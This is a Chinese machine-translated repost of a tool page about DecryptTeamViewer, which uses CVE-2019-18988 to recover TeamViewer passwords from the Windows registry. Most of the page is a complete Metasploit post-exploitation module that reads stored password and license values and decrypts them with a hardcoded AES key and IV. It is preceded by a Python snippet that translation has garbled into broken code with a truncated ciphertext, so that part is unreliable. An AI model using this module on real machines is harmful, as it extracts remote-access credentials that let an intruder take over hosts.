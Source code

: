 # DecryptTeamViewer:从 Windows 注册表枚举和解密 TeamViewer 凭据

> 原文：<https://kalilinuxtutorials.com/decryptteamviewer/>

[![DecryptTeamViewer : Enumerate & Decrypt TeamViewer Credentials From Windows Registry](img//28a54e48e735d91aa7a73dd97ec44f86.png "DecryptTeamViewer : Enumerate & Decrypt TeamViewer Credentials From Windows Registry")](https://1.bp.blogspot.com/-ZgWW4O5432U/Xk1ecnQJNeI/AAAAAAAAFBg/6dzEcq5u2DYncmv00krxy_35NBPKSpFQwCLcBGAsYHQ/s1600/DecryptTeamViewer%25281%2529.png)

**DecryptTeamViewer** 使用 CVE-2019-18988 来枚举和解密来自 Windows 注册表的 TeamViewer 凭证。通过[点击此处](https://whynotsecurity.com/blog/teamviewer/)发布详述漏洞的博客。

请参见下面的 Python 实现，以及下面的 post metasploit 模块；

从 Crypto 导入 sys、hexdump、binascii
。Cipher 导入 AES

类 AES cipher:
def**init**(self，key):
self . key = key

def decrypt(self，iv，data):
self . cipher = AES . new(self . key，AES。MODE_CBC，iv)
return self . cipher . decrypt(data)

key = binas CII . unhexlify(" 06020000005253413100040000 ")
iv = binas CII . unhexlify(" 0100010067244 f 436 e 6762 f 25 ea 8d 704 ")
hex _ str _ cipher = " d 699 解密(iv，密文)

打印(hex dump . hex dump(raw _ un))

密码= raw_un.decode('utf-16')
打印(密码)

**也可阅读-[CTF Tool:交互式 CTF 探索工具](https://kalilinuxtutorials.com/ctftool/)**

```
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
# @blurbdust based this code off of https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/gather/credentials/gpp.rb
# and https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/gather/enum_ms_product_keys.rb
##

class MetasploitModule < Msf::Post
  include Msf::Post::Windows::Registry

  def initialize(info={})
    super(update_info(info,
        'Name'          => 'Windows Gather TeamViewer Passwords',
        'Description'   => %q{ This module will find and decrypt stored TeamViewer keys },
        'License'       => MSF_LICENSE,
        'Author'        => [ 'Nic Losby <blurbdust[at]gmail.com>'],
        'Platform'      => [ 'win' ],
        'SessionTypes'  => [ 'meterpreter' ]
      ))
  end

  def app_list
    results = ""
    keys = [
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version7", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version8", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version9", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version10", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version11", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version12", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version13", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version14", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version15", "Version" ],
      [ "HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer", "Version" ],
      [ "HKLM\\SOFTWARE\\TeamViewer\\Temp", "SecurityPasswordExported" ],
      [ "HKLM\\SOFTWARE\\TeamViewer", "Version" ],
    ]

    keys.each do |keyx86|

      #parent key
      p = keyx86[0,1].join

      #child key
      c = keyx86[1,1].join

      key      = nil
      keychunk = registry_getvaldata(p, c)
      key      = keychunk.unpack("C*") if not keychunk.nil?

      optpass  = registry_getvaldata(p, "OptionsPasswordAES")
      secpass  = registry_getvaldata(p, "SecurityPasswordAES")
      secpasse = registry_getvaldata(p, "SecurityPasswordExported")
      servpass = registry_getvaldata(p, "ServerPasswordAES")
      proxpass = registry_getvaldata(p, "ProxyPasswordAES")
      license  = registry_getvaldata(p, "LicenseKeyAES")

      if not optpass.nil? 
        decvalue = decrypt(optpass)
        if not decvalue.nil?
          print_good("Found Options Password: #{decvalue}")
          results << "Options:#{decvalue}\n"
        end
      end
      if not secpass.nil? 
        decvalue = decrypt(secpass)
        if not decvalue.nil?
          print_good("Found Security Password: #{decvalue}")
          results << "Security:#{decvalue}\n"
        end
      end
      if not secpasse.nil? 
        decvalue = decrypt(secpasse)
        if not decvalue.nil?
          print_good("Found Security Password Exported: #{decvalue}")
          results << "SecurityE:#{decvalue}\n"
        end
      end
      if not servpass.nil? 
        decvalue = decrypt(servpass)
        if not decvalue.nil?
          print_good("Found Server Password: #{decvalue}")
          results << "Server:#{decvalue}\n"
        end
      end
      if not proxpass.nil? 
        decvalue = decrypt(proxpass)
        if not decvalue.nil?
          print_good("Found Proxy Password: #{decvalue}")
          results << "Proxy:#{decvalue}\n"
        end
      end
      if not license.nil? 
        decvalue = decrypt(license)
        if not decvalue.nil?
          print_good("Found License Key: #{decvalue}")
          results << "License:#{decvalue}\n"
        end
      end
    end

    #Only save data to disk when there's something in the table
    if not results.empty?
      path = store_loot("host.teamviewer_passwords", "text/plain", session, results, "teamviewer_passwords.txt", "TeamViewer Passwords")
      print_good("Passwords stored in: #{path.to_s}")
    end
  end

  def decrypt(encrypted_data)
    password = ""
    return password unless encrypted_data

    password = ""
    original_data = encrypted_data.dup

    decoded = encrypted_data
    #print_status(decoded)

    key = "\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
    iv  = "\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
    aes = OpenSSL::Cipher.new("AES-128-CBC")
    begin
      aes.decrypt
      aes.key = key
      aes.iv = iv
      plaintext = aes.update(decoded)
      password = Rex::Text.to_ascii(plaintext, 'utf-16le')
      if plaintext.empty?
        return nil
      end
    rescue OpenSSL::Cipher::CipherError => e
      puts "Unable to decode: \"#{encrypted_data}\" Exception: #{e}"
    end

    password
  end

  def run
    print_status("Finding TeamViewer Passwords on #{sysinfo['Computer']}")
    app_list
  end
end
```

[**Download**](https://github.com/V1V1/DecryptTeamViewer)